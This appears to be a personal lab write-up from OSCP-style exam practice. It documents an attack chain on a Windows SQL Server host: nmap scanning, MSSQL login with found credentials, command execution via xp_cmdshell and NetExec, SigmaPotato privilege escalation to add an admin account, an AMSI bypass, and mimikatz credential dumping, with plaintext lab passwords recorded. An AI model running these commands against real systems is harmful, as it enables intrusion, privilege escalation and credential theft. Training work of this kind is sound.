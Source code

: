 # Loot

```
proof.txt  
9e0760382b10babe9219fc1a03e1636c
```


![[{CA4DBFFC-499F-432D-9922-6A4A847557C1}.png]]



# Host

```
username: svc_sql
password: SQLPowerHouse333
```

# Scans
## nmap 
### quick scan

```
└─$ nmap -sV 172.16.114.202            
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-09 04:35 EDT
Nmap scan report for 172.16.114.202
Host is up (0.095s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 87.88 second

```


since we know that there is a sql  cred

username: svc_sql
password: SQLPowerHouse333

impacket-mssqlclient svc_sql:SQLPowerHouse333@172.16.114.202 -windows-auth

![[{B1481032-8661-44EF-BB3F-51CDB9244D9F}.png]]

let us run xp_cmdshell

![[{1FF7854D-86CC-4C8C-BE5C-44C89AD8198C}.png]]

try using nxc
https://www.netexec.wiki/mssql-protocol/mssql-command


![[{9FE69711-71C0-490B-B014-0C39FED5154C}.png]]


use NXC to upload SigmaPotato to create user
https://github.com/tylerdotrar/SigmaPotato/tree/main

nxc mssql 172.16.114.202 -u svc_sql -p 'SQLPowerHouse333' --put-file SigmaPotato.exe C:\\Users\\Public\\SigmaPotato.exe

![[{8E6B36A9-BB3F-44AB-9724-4411D2A6E57A}.png]]

add user 
```
nxc mssql 172.16.114.202 -u svc_sql -p 'SQLPowerHouse333' -x 'C:\\Users\\public\\SigmaPotato.exe "net user hacker Password123! /add"'
```

![[{91185F70-9F43-49D4-BD7B-B8C7A734DDD9}.png]]


```
nxc mssql 172.16.114.202 -u svc_sql -p 'SQLPowerHouse333' -x 'C:\\Users\\public\\SigmaPotato.exe "net LOCALGROUP administrators hacker /add"' 
```

![[{FE98D05E-A784-46D8-A6FD-9F498348757E}.png]]

# evil -winrm

newly created user , we can evil winvm in

```
evil-winrm -u 'hacker' -p 'Password123!' -i  172.16.114.202

whoami /all

```

![[{7E050E5D-DACD-4768-B313-4B96E365611B}.png]]

![[{8CCCEAE3-DBB6-4A38-95F4-58515E2A6C7D}.png]]


get Proof.txt 
proof.txt : 9e0760382b10babe9219fc1a03e1636c

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : SRV22
   Primary Dns Suffix  . . . . . . . : oscp.exam
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : oscp.exam

Ethernet adapter Ethernet1:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : Intel(R) 82574L Gigabit Network Connection
   Physical Address. . . . . . . . . : 00-50-56-8A-CB-90
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 172.16.114.202(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.114.254
   DNS Servers . . . . . . . . . . . : 172.16.114.200
   NetBIOS over Tcpip. . . . . . . . : Enabled
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami
srv22\hacker
*Evil-WinRM* PS C:\Users\Administrator\Desktop> hostname
SRV22
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat Proof.txt
9e0760382b10babe9219fc1a03e1636c

```

![[{CA4DBFFC-499F-432D-9922-6A4A847557C1}.png]]



# more digging

upload Mimikatz via evilrm

```
vil-winrm -u 'hacker' -p 'Password123!' -i  172.16.114.202

Bypass-4MSI

upload /home/kali/OSCP/Exam/AD/172.16.114.202/mimikatz.exe

.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"


```

![[{CC034690-7252-4BC3-A793-77D4E9715944}.png]]

![[{6D35D24D-8D30-41C4-9530-665A54F44057}.png]]

![[{B42E16D7-5878-40CB-B021-27C98BC72A75}.png]]
cred for the next machine

```
         * Username : a.betty
         * Domain   : OSCP.EXAM
         * Password : BrightSunnyDay666
     * 
```